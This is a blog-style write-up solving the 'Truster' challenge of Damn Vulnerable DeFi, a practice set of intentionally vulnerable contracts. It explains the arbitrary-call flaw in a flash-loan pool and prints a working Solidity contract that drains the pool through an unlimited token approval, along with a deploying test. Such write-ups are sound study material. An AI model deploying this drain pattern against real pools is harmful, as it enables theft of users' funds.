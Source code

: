 ```yaml
---
isDraft: false
title: 'Damn Vulnerable DeFi Challenge #3 Solution'
description: 'Explanation of solution to Damn Vulnerable Defi Challenge #3: Truster'
tags: ['defi', 'solidity']
series: 'Damn Vulnerable DeFi'
publishDate: 'Feb 20, 2023 05:48 PM'
---
```



# {frontmatter.title}

<Quote />

*Published <FormattedDate client:only="react" date={props.date} />*

> ## Challenge #3 - Truster
>
> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
>
> The pool holds 1 million DVT tokens. You have nothing.
>
> To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

The pool's `flashLoan` function implements some preventative measures against attacks. Namely, it uses the nonReentrant modifier and an if statement that reverts if its balance is less than its balance before the transfer.

```solidity
// contracts/truster/TrusterLenderPool.sol

function flashLoan(
    uint256 amount,
    address borrower,
    address target,
    bytes calldata data
) external nonReentrant returns (bool) {
    uint256 balanceBefore = token.balanceOf(address(this));

    token.transfer(borrower, amount);
    target.functionCall(data);

    if (token.balanceOf(address(this)) < balanceBefore)
        revert RepayFailed();

    return true;
}
```

There is a single line that throws the contract's security out the window.

`target.functionCall(data);`

It may seem fine since the contract checks its token balance after the function call, but allowing arbitrary function calls is almost never a good idea. It is extremely tricky to audit interactions with external contracts.

The DVT contract inherits from Solmate's ERC20 + EIP-2312 implementation. One method from the ERC-20 specification stands out:

> ### approve
>
> Allows `_spender` to withdraw from your account multiple times, up to the `_value` amount. If this function is called again it overwrites the current allowance with `_value`.

Solmate implements it in its ERC20 contract:

```solidity
// node_modules/solmate/src/tokens/ERC20.sol

function approve(
    address spender,
    uint256 amount
) public virtual returns (bool) {
    allowance[msg.sender][spender] = amount;

    emit Approval(msg.sender, spender, amount);

    return true;
}
```

Since the pool allows us to call any function on its behalf, we can call `approve` with the pool as `msg.sender`. We can set our own allowance, and then transfer the pool's balance to ourselves!

These two actions must be done separately because `flashLoan` would revert if we simply transferred the tokens to ourselves (`RepayFailed`). We can perform multiple actions in a single transaction by executing them in a contract's `constructor`.

Let's create a contract that takes control of all of the pool's tokens. The contract then transfers the tokens to a beneficiary (us).

```solidity
// contracts/truster/Trustee.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./TrusterLenderPool.sol";

contract Trustee {
    constructor(TrusterLenderPool pool) {
        pool.flashLoan(
            // "amount" has to be 0.
            // We can't borrow because we won't be repaying a loan.
            0,
            // "borrower" can be any address since we're not borrowing.
            address(0),
            // "target" is the contract we are calling.
            address(pool.token()),
            // "data" is what we call "target" with.
            // We send the approve function's signature along with its arguments.
            // We approve an unlimited amount for Trustee to manage.
            abi.encodeWithSignature(
                "approve(address,uint256)",
                address(this),
                type(uint256).max
            )
        );

        pool.token().transferFrom(
            address(pool),
            msg.sender,
            pool.token().balanceOf(address(pool))
        );
    }
}
```

Now we just compile and deploy `Trustee`. It will transfer all tokens to the deployer on deployment.

```js
// test/truster/truster.challenge.js

it('Execution', async function () {
  await (
    await ethers.getContractFactory('Trustee', player)
  ).deploy(pool.address)
})
```
